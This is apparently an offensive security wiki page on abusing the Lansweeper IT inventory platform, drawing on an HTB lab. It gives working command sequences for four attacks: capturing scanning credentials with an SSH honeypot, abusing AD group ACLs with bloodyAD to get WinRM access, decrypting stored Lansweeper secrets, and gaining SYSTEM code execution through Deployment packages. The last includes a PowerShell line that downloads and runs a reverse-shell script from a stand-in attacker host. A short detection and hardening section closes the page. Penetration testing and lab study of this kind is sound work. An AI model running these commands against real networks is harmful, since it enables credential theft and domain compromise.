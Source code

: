 # Lansweeper Abuse: Credential Harvesting, Secrets Decryption, and Deployment RCE

Lansweeper is an IT asset discovery and inventory platform commonly deployed on Windows and integrated with Active Directory. Credentials configured in Lansweeper are used by its scanning engines to authenticate to assets over protocols like SSH, SMB/WMI and WinRM. Misconfigurations frequently allow:

- Credential interception by redirecting a scanning target to an attacker-controlled host (honeypot)
- Abuse of AD ACLs exposed by Lansweeper-related groups to gain remote access
- On-host decryption of Lansweeper-configured secrets (connection strings and stored scanning credentials)
- Code execution on managed endpoints via the Deployment feature (often running as SYSTEM)

This page summarizes practical attacker workflows and commands to abuse these behaviors during engagements.

## 1) Harvest scanning credentials via honeypot (SSH example)

Idea: create a Scanning Target that points to your host and map existing Scanning Credentials to it. When the scan runs, Lansweeper will attempt to authenticate with those credentials, and your honeypot will capture them.

Steps overview (web UI):
- Scanning → Scanning Targets → Add Scanning Target
  - Type: IP Range (or Single IP) = your VPN IP
  - Configure SSH port to something reachable (e.g., 2022 if 22 is blocked)
  - Disable schedule and plan to trigger manually
- Scanning → Scanning Credentials → ensure Linux/SSH creds exist; map them to the new target (enable all as needed)
- Click “Scan now” on the target
- Run an SSH honeypot and retrieve the attempted username/password

Example with sshesame:

```yaml
# sshesame.conf
server:
  listen_address: 10.10.14.79:2022
```

```bash
# Install and run
sudo apt install -y sshesame
sshesame --config sshesame.conf
# Expect client banner similar to RebexSSH and cleartext creds
# authentication for user "svc_inventory_lnx" with password "<password>" accepted
# connection with client version "SSH-2.0-RebexSSH_5.0.x" established
```

Validate captured creds against DC services:

```bash
# SMB/LDAP/WinRM checks (NetExec)
netexec smb   inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec ldap  inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Notes
- Works similarly for other protocols when you can coerce the scanner to your listener (SMB/WinRM honeypots, etc.). SSH is often the simplest.
- Many scanners identify themselves with distinct client banners (e.g., RebexSSH) and will attempt benign commands (uname, whoami, etc.).

## 2) AD ACL abuse: gain remote access by adding yourself to an app-admin group

Use BloodHound to enumerate effective rights from the compromised account. A common finding is a scanner- or app-specific group (e.g., “Lansweeper Discovery”) holding GenericAll over a privileged group (e.g., “Lansweeper Admins”). If the privileged group is also member of “Remote Management Users”, WinRM becomes available once we add ourselves.

Collection examples:

```bash
# NetExec collection with LDAP
netexec ldap inventory.sweep.vl -u svc_inventory_lnx -p '<password>' --bloodhound -c All --dns-server <DC_IP>

# RustHound-CE collection (zip for BH CE import)
rusthound-ce --domain sweep.vl -u svc_inventory_lnx -p '<password>' -c All --zip
```

Exploit GenericAll on group with BloodyAD (Linux):

```bash
# Add our user into the target group
bloodyAD --host inventory.sweep.vl -d sweep.vl -u svc_inventory_lnx -p '<password>' \
  add groupMember "Lansweeper Admins" svc_inventory_lnx

# Confirm WinRM access if the group grants it
netexec winrm inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Then get an interactive shell:

```bash
evil-winrm -i inventory.sweep.vl -u svc_inventory_lnx -p '<password>'
```

Tip: Kerberos operations are time-sensitive. If you hit KRB_AP_ERR_SKEW, sync to the DC first:

```bash
sudo ntpdate <dc-fqdn-or-ip>   # or rdate -n <dc-ip>
```

## 3) Decrypt Lansweeper-configured secrets on the host

On the Lansweeper server, the ASP.NET site typically stores an encrypted connection string and a symmetric key used by the application. With appropriate local access, you can decrypt the DB connection string and then extract stored scanning credentials.

Typical locations:
- Web config: `C:\Program Files (x86)\Lansweeper\Website\web.config`
  - `<connectionStrings configProtectionProvider="DataProtectionConfigurationProvider">` … `<EncryptedData>…`
- Application key: `C:\Program Files (x86)\Lansweeper\Key\Encryption.txt`

Use SharpLansweeperDecrypt to automate decryption and dumping of stored creds:

```powershell
# From a WinRM session or interactive shell on the Lansweeper host
# PowerShell variant
Upload-File .\LansweeperDecrypt.ps1 C:\ProgramData\LansweeperDecrypt.ps1   # depending on your shell
powershell -ExecutionPolicy Bypass -File C:\ProgramData\LansweeperDecrypt.ps1
# Tool will:
#  - Decrypt connectionStrings from web.config
#  - Connect to Lansweeper DB
#  - Decrypt stored scanning credentials and print them in cleartext
```

Expected output includes DB connection details and plaintext scanning credentials such as Windows and Linux accounts used across the estate. These often have elevated local rights on domain hosts:

```text
Inventory Windows  SWEEP\svc_inventory_win  <StrongPassword!>
Inventory Linux    svc_inventory_lnx        <StrongPassword!>
```

Use recovered Windows scanning creds for privileged access:

```bash
netexec winrm inventory.sweep.vl -u svc_inventory_win -p '<StrongPassword!>'
# Typically local admin on the Lansweeper-managed host; often Administrators on DCs/servers
```

## 4) Lansweeper Deployment → SYSTEM RCE

As a member of “Lansweeper Admins”, the web UI exposes Deployment and Configuration. Under Deployment → Deployment packages, you can create packages that run arbitrary commands on targeted assets. Execution is performed by the Lansweeper service with high privilege, yielding code execution as NT AUTHORITY\SYSTEM on the selected host.

High-level steps:
- Create a new Deployment package that runs a PowerShell or cmd one-liner (reverse shell, add-user, etc.).
- Target the desired asset (e.g., the DC/host where Lansweeper runs) and click Deploy/Run now.
- Catch your shell as SYSTEM.

Example payloads (PowerShell):

```powershell
# Simple test
powershell -nop -w hidden -c "whoami > C:\Windows\Temp\ls_whoami.txt"

# Reverse shell example (adapt to your listener)
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://<attacker>/rs.ps1')"
```

OPSEC
- Deployment actions are noisy and leave logs in Lansweeper and Windows event logs. Use judiciously.

## Detection and hardening

- Restrict or remove anonymous SMB enumerations. Monitor for RID cycling and anomalous access to Lansweeper shares.
- Egress controls: block or tightly restrict outbound SSH/SMB/WinRM from scanner hosts. Alert on non-standard ports (e.g., 2022) and unusual client banners like Rebex.
- Protect `Website\\web.config` and `Key\\Encryption.txt`. Externalize secrets into a vault and rotate on exposure. Consider service accounts with minimal privileges and gMSA where viable.
- AD monitoring: alert on changes to Lansweeper-related groups (e.g., “Lansweeper Admins”, “Remote Management Users”) and on ACL changes granting GenericAll/Write membership on privileged groups.
- Audit Deployment package creations/changes/executions; alert on packages spawning cmd.exe/powershell.exe or unexpected outbound connections.

## Related topics
- SMB/LSA/SAMR enumeration and RID cycling
- Kerberos password spraying and clock skew considerations
- BloodHound path analysis of application-admin groups
- WinRM usage and lateral movement

## References
- [HTB: Sweep — Abusing Lansweeper Scanning, AD ACLs, and Secrets to Own a DC (0xdf)](https://0xdf.gitlab.io/2025/08/14/htb-sweep.html)
- [sshesame (SSH honeypot)](https://github.com/jaksi/sshesame)
- [SharpLansweeperDecrypt](https://github.com/Yeeb1/SharpLansweeperDecrypt)
- [BloodyAD](https://github.com/CravateRouge/bloodyAD)
- [BloodHound CE](https://github.com/SpecterOps/BloodHound)

